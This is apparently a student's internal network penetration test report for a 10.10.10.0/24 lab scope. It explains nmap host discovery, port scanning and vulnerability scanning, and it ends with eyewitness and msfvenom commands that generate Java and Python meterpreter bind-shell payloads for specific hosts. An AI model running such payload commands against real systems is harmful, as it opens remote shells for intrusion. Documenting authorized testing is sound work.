

# INTERNAL NETWORK PENETRATION TESTING REPORT
#### BY ADU GYENI BENJAMIN

### Table of Contents
1. [Summary](#summary)
2. [Testing_Methodogy](#TestingMethodogy)
3. [Host_Discovery](#HostDiscovery)
4. [Sevice_Discovery_and_Port_Scanning](#SeviceDiscoveryandPortScanning)
5. [Web-Based_Attack_Surfaces](#Web-BasedAttackSurfaces)
6. [Generating_Payloads](#GeneratingPayloads)

### Summary
An Internal Network Penetration Test was performed on a scope comprising 10.10.10.0/24 and a domain name https://virtualinfosecafrica.com/ from September 12th, 2024 to September 14th, 2024. This report describes penetration testing that represents a point in time snapshots of the network security posture of the scope in question which can be found in the subsequent sessions.

### Testing Methodogy
Testing took off by utilizing the Network Mapper(NMAP) tool to locate live hosts and services in the in-scope ip address provided. The output of this tooling was then manually examined and the host and services were manually enumerated to uncover any missed vulnerability and weakness. Web-based attack surfaces were exploited to generate payloads.

### Host Discovery
Host discovery is a process of finding live hosts on a network. It can be used to narrow down the scope of a network assessment or during security testing. One tool which is mostly used in host discovery is the nmap tool. The command used in the host discovery was " nmap -sn 10.10.10.0/24 ", where " -sn (or --ping-scan) " - tells nmap to perform a "ping scan" which is used to discover hosts without performing a full port scan. It will only check if hosts are alive, not what services they are running.
" 10.10.10.0/24 " - specifies the target network. The /24 is a CIDR notation indicating a subnet mask of 255.255.255.0, which means the scan will cover all IP addresses from 10.10.10.1 to 10.10.10.254.

The below image is a description of how subdomain enumeration was performed using aiodnsbrute tool

### Service Discovery And Port Scanning
Service discovery and port scanning are essential techniques in network management, security, and administration.

##### Service Discovery
- **Purpose:** Identifies active services on a network, such as web servers or databases.
- **Benefits:**
  - **Configuration Management:** Helps administrators verify and manage service configurations.
  - **Troubleshooting:** Assists in diagnosing and resolving network issues by revealing which services are running.
  - **Security:** Aids in identifying potential vulnerabilities by showing what services are exposed and their current state.

##### Port Scanning
- **Purpose:** Detects open ports on networked devices, revealing which services are available.
- **Benefits:**
  - **Network Mapping:** Helps in understanding the network layout and available services.
  - **Security Assessment:** Identifies open ports and services that may be vulnerable, aiding in vulnerability management.
  - **Compliance:** Ensures systems meet security policies and standards by regularly checking for unintended open ports.

##### Combined Use
- **Enhanced Security:** Together, these techniques provide a comprehensive view of network security, identifying vulnerabilities and ensuring proper configuration.
- **Efficient Management:** They help in maintaining a secure and well-managed network environment by detecting potential issues early.
  

### Vulnerability Scanning
Vulnerability scanning is an automated process that identifies security weaknesses in systems, networks, or applications. It helps detect unpatched software, misconfigurations, and other vulnerabilities that could be exploited. The scanning process involves discovering live hosts, scanning for known issues, analyzing results, and generating reports. Benefits include proactive security, cost-effectiveness, and regulatory compliance, though it may produce false positives or miss some vulnerabilities. Regular vulnerability scanning is essential for maintaining and enhancing overall security.

### Web-Based Attack Surfaces
Web-based attack surfaces include web application interfaces, authentication mechanisms, APIs, and server configurations, each posing potential security risks like SQL injection or session hijacking. Key security measures involve input validation, secure session management, and keeping software updated. Addressing vulnerabilities in these areas helps protect against exploits and enhances overall web security.

- To use eyewitness to take screenshots of the servers, including those running on non-standard HTTP/HTTPS ports, you can use the following bash command: "eyewitness -f hosts.txt --web --resolve --ports 80, 443, 8080, 8443"

- To generate a base64-encoded payload that triggers a TCP bind shell on executiion on host 10.10.10.55(Apache Tomcat), use this bash command: "msfvenom -p java/meterpreter/bind-tcp LHOST=10.10.10.55 LPORT=4444 -f jar"

- To generate a payload that triggers a TCP bind shell on executiion on host 10.10.10.30(Python Server), use this bash command: "msfvenom -p python/meterpreter/bind-tcp LHOST=10.10.10.30 LPORT=4444 -e base64"

  

